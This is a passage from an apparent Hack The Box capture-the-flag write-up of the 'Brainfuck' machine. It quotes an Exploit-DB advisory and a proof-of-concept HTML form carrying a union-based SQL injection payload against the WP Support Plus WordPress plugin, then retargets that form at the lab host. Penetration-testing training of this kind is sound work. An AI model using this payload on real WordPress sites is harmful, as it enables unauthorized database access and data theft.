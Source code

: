 As expected, the user `admin` is an admin privilege user.

I also tried to find public exploits in Flarum, but nothing.

Then, I enumerated hidden directories and files, brute forced both users' password, no dice at all.

Let's take a step back.

**We still have 1 more thing in the WordPress CMS: SQL injection in Support Plus Responsive Ticket System 7.1.3!**

**`40939.txt`:**
```
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 – WordPress Plugin – Sql Injection
[...]
1 - Description:

Type user access: any user. $_POST[‘cat_id’] is not escaped. Is accessible for any user.

http://lenonleite.com.br/en/blog/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/

2 - Proof of Concept:

<form action="http://target/wp-admin/admin-ajax.php" method="post">
<input type="text" name="action" value="wpsp_getCatName">
<input type="text" name="cat_id" value="0 UNION SELECT 1,CONCAT(name,CHAR(58),slug),3 FROM wp_terms WHERE term_id=1">
<input type="submit" name="">
</form>
[...]
```

The `<form>` element will send a POST request to `/wp-admin/admin-ajax.php`, with parameter `action` and `cat_id`. The `cat_id` is vulnerable to Union-based SQL injection.

**`40939_poc.html`:**
```html
<form action="https://brainfuck.htb/wp-admin/admin-ajax.php" method="post">
<input type="text" name="action" value="wpsp_getCatName">
<input type="text" name="cat_id" value="0 UNION SELECT 1,CONCAT(name,CHAR(58),slug),3 FROM wp_terms WHERE term_id=1">
<input type="submit" name="">
</form>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604175407.png)
